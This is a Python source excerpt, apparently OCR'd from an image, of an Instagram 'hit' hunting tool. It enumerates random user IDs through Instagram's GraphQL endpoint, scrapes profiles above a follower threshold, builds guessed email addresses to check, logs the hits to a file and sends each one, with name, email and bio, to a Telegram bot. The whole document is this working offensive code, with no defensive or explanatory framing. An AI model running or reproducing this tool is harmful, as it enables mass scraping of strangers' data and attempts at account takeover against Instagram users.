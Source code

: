 def InfoAcc(username, domain):
    global total_hits
    account_info = infoinsta.get(username, {})
    user_id = account_info.get('pk')
    full_name = account_info.get('full_name')
    followers = account_info.get('follower_count', 0)
    following = account_info.get('following_count')
    posts = account_info.get('media_count')
    bio = account_info.get('biography')
    meta_status = "Meta Active ✅" if followers > 50 else "Meta Not Active ✖️"
    total_hits += 1
    info_text = f"""
𝐇𝐈𝐓 𝐀𝐂𝐂𝐎𝐔𝐍𝐓 𝐈𝐍𝐒𝐓𝐀𝐆𝐑𝐀𝐌 
═══════════════════
🇮🇳𝐇𝐈𝐓 : {total_hits}
🇮🇳𝐍𝐀𝐌𝐄 : {full_name}
🇮🇳𝐔𝐒𝐄𝐑𝐍𝐀𝐌𝐄 : {username}
🇮🇳𝐄𝐌𝐀𝐈𝐋 : {username}@{domain}
🇮🇳𝐅𝐎𝐋𝐋𝐎𝐖𝐄𝐒 : {followers} 
🇮🇳𝐅𝐎𝐋𝐋𝐎𝐖 : {following} 
🇮🇳𝐏𝐎𝐒𝐓 : {posts} 
🇮🇳𝐃𝐀𝐓𝐄 : 2010-19
🇮🇳𝐁𝐈𝐎 : {bio} 
🇮🇳𝐌𝐄𝐓𝐀 : {meta_status}
🇮🇳𝐁𝐔𝐒𝐈𝐍𝐄𝐒𝐒 : None
🇮🇳𝐑𝐄𝐒𝐓 : {rest(username)}
🇮🇳𝐋𝐈𝐍𝐊 : https://www.instagram.com/{username}
══════════════════
Admin • @sf_army
"""
    with open('ranveer.txt', 'a') as f:
        f.write(info_text + "\n")
    try:
        requests.get(f"https://api.telegram.org/bot{TOKEN}/sendMessage?chat_id={ID}&text={info_text}")
    except Exception:
        pass

def zrykr_python():
    while True:
        data = {
            'lsd': ''.join(random.choices(string.ascii_letters + string.digits, k=32)),
            'variables': json.dumps({
                'id': int(random.randrange(2500000000, 21254029834)),
                'render_surface': 'PROFILE'
            }),
            'doc_id': '25618261841150840'
        }
        headers = {'X-FB-LSD': data['lsd']}
        try:
            response = requests.post('https://www.instagram.com/api/graphql', headers=headers, data=data)
            account = response.json().get('data', {}).get('user', {})
            username = account.get('username')
            if username:
                followers = account.get('follower_count', 0)
                if followers < 30: # minimum Followers Set.
                    continue
                infoinsta[username] = account
                emails = [username + zrykr_domain]
                for email in emails:
                    check(email)
        except Exception:
            pass
